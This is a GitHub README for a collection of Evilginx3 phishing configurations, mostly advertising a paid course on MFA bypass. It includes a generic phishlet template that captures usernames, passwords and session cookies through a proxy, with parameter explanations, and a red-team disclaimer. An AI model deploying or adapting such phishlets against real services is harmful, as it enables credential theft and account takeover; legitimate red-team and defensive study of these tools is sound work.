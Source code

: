 # Updated Evilginx3 Phishlets
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.

**Got any requests or questions?** 

[![Visit my website](https://img.shields.io/badge/Email-SimplerHacking-blue?style=for-the-badge&logo=appveyor)](http://www.simplerhacking.com)

[![Discord](https://img.shields.io/badge/Discord-7289DA?style=for-the-badge&logo=discord&logoColor=white)](https://discord.gg/xr3Sp8YA)

# Education: Interested in Mastering Phishing Attacks with Evilginx3?
## Check out our Evilginx3 Pro Masterclass on: www.SimplerHacking.com

[![Evilginx Pro Masterclass](https://img.shields.io/badge/Evilginx-Professional%20Masterclass-darkred?style=for-the-badge&logo=github)](https://www.simplerhacking.com/courses/evilginx-course)

## Use Code: GITHUB20 for a 20% off of the course!
### Become an Evilginx pro & learn how to bypass modern MFA with the latest version Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results. Get access to Phishlets not available on our public Github as well as tons of resources to aid your engagements.

### Course Previews:

![Evilginx Pro Course Preview](https://github.com/simplerhacking/Phishlet-Creator/assets/141525149/66bbf548-b340-4c91-8694-1f77209a5edb)

![Screenshot (2279)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/7a817e44-ce59-49f5-8197-540cead76c93)


https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/fa7dcbf0-13cb-4cfc-b7a8-f944d824b0c2

### Email Spoofing for MITM Bonus Preview:
![evilginx3 new course 3](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/389cadcc-4fa3-4859-89e8-0ce95af23f65)


![Evilginx Course Preview K](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/8f01d447-91f2-40ad-81f6-ac05f7e7eb5e)

![Evilginx Pro Course Workflow](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/22130b95-84b2-4993-a334-245b3c7ffc78)



## Why Enroll in the Course?
- **Afforable:** The price of the course is afforable for anyone interesting in learning about Evilginx & MITM Attacks.
- **Zero Sugarcoating:**  There is no fluff in our education. You will learn everything straight up without the BS.
- **Practical Application:** Through hands-on labs & real customizeable templates, We help you apply what you learn in real-world scenarios.
- **From Basics to Advanced:** This course offers a smooth learning curve, foundation before diving into advanced features of Evilginx3.
- **Custom Phishlets files & Resource Library:** Access private phishlet files, Q&A support & our archived resource library.
- **Join our Community:** Be part of a community of learners and professionals in the field of red teaming and cybersecurity.
- **Get Support & Assistance:** Get your questions & concerns answered. We are here to help.


## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
Send us an email to info@simplerhacking.com 

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Join the Discord Server

[![Discord](https://img.shields.io/badge/Discord-7289DA?style=for-the-badge&logo=discord&logoColor=white)](https://discord.gg/xr3Sp8YA)

[![](https://dcbadge.vercel.app/api/server/xr3Sp8YA?style=plastic&theme=blue)](https://discord.gg/xr3Sp8YA)

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.
